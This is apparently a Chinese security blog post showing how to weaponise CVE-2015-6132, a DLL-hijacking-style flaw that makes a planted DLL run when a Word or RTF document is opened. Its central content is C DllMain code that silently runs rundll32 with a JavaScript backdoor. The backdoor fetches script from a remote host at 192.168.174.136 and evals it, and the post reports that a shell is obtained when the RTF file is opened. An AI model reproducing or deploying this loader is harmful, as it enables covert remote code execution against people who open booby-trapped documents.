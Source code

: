 * * *

**开发工具：**`VC6.0`

**结合漏洞：**`CVE-2015-6132`

**细节可参考：**[http://zone.wooyun.org/content/24877](http://zone.wooyun.org/content/24877)

CVE-2015-6132 ，是一个类似于dll劫持的漏洞，如果在特定word文档的同级目录下放置一个dll，那么在打开word文档并点击图标后会运行同级目录下dll的代码

如图![Alt text](http://drops.javaweb.org/uploads/images/b280f4c380f98254ecf1099adf1f50c7f03b0899.jpg)

planted-mqrt.doc里面包含图标foo.txt,如果点击图标，那么会运行mqrt.dll中的代码，即弹框

当然，把word 文档改为rtf文档即可实现在打开文档后的自动触发

如果把mqrt.dll的payload改为JavaScript Backdoor，那么会怎么样呢？

下面我们就修改一下

方法也很简单，但也需要注意cmd的参数和转义字符的修改，关键代码如下：

```
BOOL APIENTRY DllMain( HANDLE hModule, 
                      DWORD  ul_reason_for_call, 
                      LPVOID lpReserved
                      )
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            char *command="cmd.exe /c start rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new\%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");h.Open(\"GET\",\"http://192.168.174.136/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new\%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";           
            WinExec(command,SW_HIDE); 
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/4657cd0c1430eb01eca1b4a3149ca39cc075b9be.jpg)

打开CVE-2015-6132.rtf，没有任何异常反应

而这时我们的控制端已经弹回了shell，如图

![Alt text](http://drops.javaweb.org/uploads/images/5b55643bd1a28bf735eacdad23bb8682a2bb95d4.jpg)

